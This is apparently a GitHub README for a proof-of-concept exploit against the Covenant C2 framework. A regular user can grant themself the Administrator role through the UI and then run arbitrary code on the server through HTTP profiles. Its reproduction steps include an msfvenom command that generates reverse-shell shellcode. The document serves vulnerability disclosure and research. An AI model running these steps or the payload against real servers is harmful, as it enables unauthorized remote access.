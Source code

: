 # Covenant Low Privileged User RCE

Both the current master and dev branches of Covenant are vulnerable to an escalation of privilege from User to Administrator. The API [blocks editing roles](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Controllers/ApiControllers/CovenantUserApiController.cs#L298) unless you are an Administrator, however in the UI itself it's [possible for a User to give themself the Administrator role](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Components/CovenantUsers/EditCovenantUser.razor).

With the Administrator role, the user has access to the most powerful feature of Covenant, the ability to create HTTP profiles. This feature is [restricted to Administrators](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Core/CovenantService.cs#L3616). Although there is no built-in way to get a shell on a Covenant server, the HTTP profiles feature essentially enables running C# code on the server as a way of customizing traffic sent to and from implants.

The C# code is limited by the fact that the built-in Covenant compiler [restricts the `System` namespace](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Core/Common.cs#L85) to `System.Private.CoreLib.dll` which means `Process` can't be directly used. However [previous excellent research](https://web.archive.org/web/20220126104152/https://blog.null.farm/hunting-the-hunters) on Covenant by 0xcoastal found a blog post by Tim Malcolmvetter that showed that only the `Activator` and `Assembly` classes are required to perform process injection of arbitrary .NET assemblies.

The privilege escalation part of this attack must be performed manually as only the Blazor UI is vulnerable and not the API, and the Blazor stuff is a pain to automate.

The RCE is automated by `covenant_rce.py`, which interacts with the API to create a HTTP profile, a HTTP listener, then communicates with the listener to trigger a provided .NET assembly to run.

## Reproduction

1. In the Covenant UI, escalate privileges from User to Administrator by clicking Users -> Your Username -> Roles -> Administrator -> Edit Roles
2. In `covenant_rce.py`, edit variables at the top of the script
3. Generate csharp shellcode, e.g. `msfvenom -f csharp -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 EXITFUNC=thread`
4. Copy shellcode buffer into `Shellcode.cs` and compile the `ShellcodeAssembly` project in Release mode in Visual Studio
5. Run `python covenant_rce.py`

## References

* https://web.archive.org/web/20220126104152/https://blog.null.farm/hunting-the-hunters
* https://github.com/malcomvetter/ManagedInjection
